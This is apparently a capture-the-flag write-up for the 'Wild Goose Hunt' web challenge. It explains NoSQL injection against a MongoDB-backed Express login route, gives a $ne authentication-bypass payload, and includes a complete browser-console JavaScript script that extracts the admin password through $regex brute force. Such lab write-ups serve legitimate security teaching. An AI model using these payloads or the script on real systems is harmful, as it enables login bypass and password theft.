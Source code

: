 # Web - Wild Goose Hunt
This challenge was NoSQL injection through type confusion. If you're confused as to how this works I highly recommend the video [ippsec - Mango](https://youtu.be/NO_lsfhQK_s?t=531). 

The page has a simple login page with a username and password input. The `entrypoint.sh` file in the downloadable portion shows the flag is in the admin password field:
```bash
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh
mkdir /tmp/mongodb
mongod --noauth --dbpath /tmp/mongodb/ &
sleep 2
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
/usr/bin/supervisord -c /etc/supervisord.conf
```

We can also see that login function is vulnerable to NoSQL injection to the mongoDB database:
```js
router.post('/api/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return User.find({ 
			username,
			password
		})
			.then((user) => {
				if (user.length == 1) {
					return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
				} else {
					return res.json({logged: 0, message: 'Login Failed'});
				}
			})
			.catch(() => res.json({ message: 'Something went wrong'}));
	}
	return res.json({ message: 'Invalid username or password'});
});
```
We can login to the app by sending the following body to the login function: `{ username: { $ne: "" }, password: { $ne: "" } }` which is just `username != "" && password != ""`. To get the flag, we need to get the admin's password, which we can do by bruteforcing the password using `$regex`. `{ username: "admin", password: { $regex: "a.*" } }` means "any password that starts with a". If this is successful, we know that the password starts with a so we move on to `aa.*`, otherwise we increment to b and so on until we have the entire flag.

Here is an exploit script in JS that can be run in your browser's console:
```js
// https://stackoverflow.com/a/6969486/9196137
function escapeRegExp(string) {
  return string.replace(/[.*+?^${}()|[\]\\]/g, "\\$&"); // $& means the whole matched string
}

async function isValid(pwd) {
  const r = await fetch("/api/login", {
    method: "POST",
    headers: { "content-type": "application/json" },
    body: JSON.stringify({
      username: { $ne: "" },
      password: { $regex: `^${escapeRegExp(pwd)}.*` },
    }),
  });
  if (r.status != 200) throw new Error(`bad status`);
  const data = await r.json();
  return !!data.logged;
}

async function brute() {
  const chars =
    "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~ ";
  let i = 0;
  let good = "CHTB{";
  while (true) {
    let curr = chars[i];
    let att = good + curr;
    console.log(att);
    if (await isValid(att)) {
      good += curr;
      i = 0;
    } else {
      i++;
      if (i >= chars.length) {
        throw new Error("done or bad");
      }
    }
  }
}

brute();
```

